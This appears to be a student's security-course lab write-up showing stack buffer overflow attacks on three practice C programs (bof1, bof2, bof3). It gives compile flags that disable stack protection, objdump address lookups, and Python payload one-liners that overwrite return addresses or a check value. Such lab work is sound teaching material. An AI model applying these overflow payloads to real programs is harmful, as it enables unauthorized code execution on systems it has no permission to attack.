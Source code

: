 # LAB 1

**Run vitual environment by docker file (using for attacking three files: bof1, bof2, bof3)**

`docker run -it --privileged -v D:\StudyHK1_2024\InformationSecurity\SecLabs:/home/seed/seclabs img4lab`

## File bof1.c

**Run bof1.c file** 

`gcc -g bof1.c -o bof1.out -fno-stack-protector -mpreferred-stack-boundary=2`

 By using `-fno-stack-protector`, the program is compiled without stack protection, making it easier to exploit buffer overflow vulnerabilities, which might otherwise be caught by the stack protection mechanism.

 By using `-mpreferred-stack-boundary=2`, it's setting the stack alignment to 4 bytes (instead of the default 16 bytes), this option changes how memory is arranged on the stack, which may help in crafting certain types of memory exploits.

**Getting secretFunc() address by command**

`objdump -d bof1.out|grep secretFunc`

![alt text](./image/image.png)

We get the address of secretFunc() is: `0804846b`

**Stack frame**

![alt text](./image/image-1.png)

=> It’s a buffer overflow at the 205th byte.

**Run the program by using command**

- Take advantage of the above statement to automatically input 204 bytes of the letter 'a', then insert the address of the `secretFunc` function.
- placement byte (204byte) + address secretFunc(\x6b\x84\x04\x08)

 `echo $(python -c "print('a'*204 + '\x6b\x84\x04\x08')") | ./bof1.out`

![alt text](./image/image-2.png)

=> Successful Attack

=> To prevent exploitation in this case, I will replace `gets()` with `fgets()` to ensure the correct limit of array a is respected.


## File bof2.c

**Summarizing**

- In this case, the array buf[] has 40 elements, but the `fgets()` command reads up to 44 elements `(fgets(buf, 45, stdin))`, with the last element reserved for `\0`, the null terminator character.

 => We rely on the last 4 elements to modify the check.

**Stackframe**

![alt text](./image/image-3.png)


**Run the bof2.c file by using the command**
`gcc -g bof2.c -o bof2.out -fno-stack-protector -mpreferred-stack-boundary=2`

![alt text](./image/image-5.png)

**Run the program by using the command**

`echo $(python -c "print('a'*40 + '\xef\xbe\xad\xde')") | ./bof2.out`

![alt text](./image/image-6.png)

=> We attack successfully


## File bof3.c

**Summarizing**

- In this case, the `buf[]` array has 128 elements, but the `fgets()` command reads up to 133 elements.

 => We rely on 4 elements to replace the address addition function into the address function shell

**Stack frame**

![alt text](./image/image-7.png)

**Run the bof3.c file**

`gcc -g bof3.c -o bof3.out -fno-stack-protector -mpreferred-stack-boundary=2`

**Get the address of the shell function:**
`objdump -d bof3.out|grep shell`

![alt text](./image/image-8.png)

We get the address of shell function is: `0804845b`

**Run the program by using command**

`echo $(python -c "print('a'*128 + '\x5b\x84\x04\x08')") | ./bof3.out`

![alt text](./image/image-9.png)

=> Seccessful
